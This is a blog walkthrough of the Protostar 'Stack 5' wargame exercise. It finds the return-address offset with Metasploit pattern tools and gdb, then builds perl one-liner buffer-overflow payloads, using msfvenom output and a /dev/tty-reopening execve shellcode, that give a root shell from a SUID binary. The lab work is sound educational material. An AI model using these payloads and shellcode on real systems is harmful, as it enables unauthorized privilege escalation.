```yaml
---
title: "Exploit Exercises - Protostar Stack 5"
date: "2011-12-17T12:23:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
aliases:
 - "/2011/12/17/exploit-exercises-protostar-stack-5.html"
 - "/2011/12/14/exploit-exercises-protostar-stack-5"
 - "/2011/12/15/exploit-exercises-protostar-stack-5"
 - "/2011/12/16/exploit-exercises-protostar-stack-5"
 - "/2011/12/17/exploit-exercises-protostar-stack-5"
 - "/2011/12/22/exploit-exercises-protostar-stack-5"
---
```


Wow, this challenge was a tough one for me.  I ran into some huge problems that I had to work out.  Considering this is a "standard buffer overflow", I figured it'd be as easy as some of the others I've done in the past.  I'll explain my frustrations inline. 

<!-- more -->

First, we're given the following vulnerable program.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

The first task with this challenge was to find the offset of the EIP.  Like previous challenges, I used [Metasploit's](http://www.metasploit.com) pattern_create.rb and pattern_offset scripts on another machine.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

user@protostar:/opt/protostar/bin$ gdb --quiet ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

 Now we know that we have 76 characters we could put our shellcode in before the EIP.  I was curious to see if we would have any after as well.  I wanted to explore a little, so I ran this.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE" . "C"x100' | ./stack5
Segmentation fault (core dumped)

user@protostar:~$ gdb --core=/tmp/core.11.stack5.4174 --quiet
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7e0:      'C' <repeats 100 times>
0xbffff845:      "b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:      ""
0xbffff853:      ""
0xbffff854:      "\020\203\004\b"
0xbffff859:      ""
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "1\203\004\ba\004\b\001"
0xbffff866:      ""
```

Interestingly enough, it looks like we at least have 100 characters after our return address that we could use to store longer shellcodes.  This could come in handy if using shellcodes generated from msfpayload. 

So now we know that we can jump to 0xbffff7e0 to get into our C area.  Let's pad it with a couple NOPs just in case, and jump to 0xbffff7d6 instead. 

Up until now, this was a simple buffer overflow problem.  One may even call it a textbook problem.  Now here's the part that had me frustrated. 

I decided I would try using msfpayload to generate some shellcode like I've done many times in the past.  Since I just want to run /bin/sh, I figured it'd be an easy way.  I also went through the exercise of finding all the badchars (I'll cover this later, since it doesn't matter here).

```
msfvenom -p linux/x86/exec -f pl -b '\x0d\x0a\x00\xff' CMD=/bin/sh PrependSetresuid=true
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)
my $buf =
"\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9" .
"\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e" .
"\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81" .
"\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1" .
"\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19" .
"\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71" .
"\x03\x6e\x5c";
```

This generated shellcode looked awesome.  I configured it to not have any of my badchars, to run "/bin/sh", and to prepend that execution with a setresuid() so that the SUID bit would affect my result, giving me a root shell, instead of just a shell I already had.  So I set it all up:

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                  
user@protostar:~$
```

So um, I should have got a shell there right?  There was no segmentation fault, it ran cleanly.  I tinkered by putting "\xcc" before the shellcode, and it would give me a message letting me know that it hit it.  I knew for sure my shellcode was being executed, but no results.  To verify, I used gdb:

``` 
user@protostar:~$ sudo gdb --quiet /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /home/user/file
Starting program: /opt/protostar/bin/stack5 < /home/user/file
Executing new program: /bin/dash

Program exited normally.
```

What this showed me was 2 interesting things.  Firstly, I was not aware that many distributions now map /bin/sh to /bin/dash (more info [here](https://wiki.ubuntu.com/DashAsBinSh)).  Secondly, and more importantly, I knew for sure that my shellcode was executing, and creating the process.  I just didn't know why it exited after. 

So this is the point that I spent 5 days on and off messing with.  I found if I changed the msfvenom command from CMD="/bin/sh" to CMD="touch /tmp/iamawesome", the file would be created with root permissions.  Any command that didn't need to return to me for interactive control worked fine.  I tried a myriad of other shellcodes, and nothing just gave me a simple shell.  I could bind a shell to a TCP port, or run a meterpreter with no problem, but for this challenge, I just wanted a simple rootshell from "execve()". 

So one night, I was reading on this, and just happened to get my search query perfect, because I stumbled upon an interesting stackoverflow page, [here](http://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d).  This guy was having the same problem as me!  And interestingly enough, he mentions problems with programs that use the "gets()" function.  This makes sense, as your standard input/output could be configured in a mode just for the function call.  Unfortunately, the shellcode that was mentioned was hosted at milw0rm, which has been down for a good long time.  Many sites, such as [Exploit-Db](http://www.exploit-db.com) have popped up to fill the void that milw0rm left.  However, they use a completely different url structure, so I had no idea what the shellcode was.  Well, I used the [Internet Way-Back Machine](http://www.archive.org), and found an old cache of milw0rm.  From there, I found the shellcode.  I also found that Exploit-Db has it [here](http://www.exploit-db.com/exploits/13357) as well.  I read through the description of the shellcode, and it makes tons of sense.  So I wire it up to try again, this time with the new shellcode.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                   
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Awesome.  I have a root shell.  I guess it's also worth pointing out that since we are specifically jumping to a memory address in our exploit, that memory addresses can change based on how you call it.  The address will be different if I call ./stack5 from inside the /opt/protostar/bin folder, than if I use the full path.  Since I was using gdb, and it calls files using the full path, I did it as well for the exploit.  For now, we have not yet covered how to dynamically get that value.  That will be for a later post.

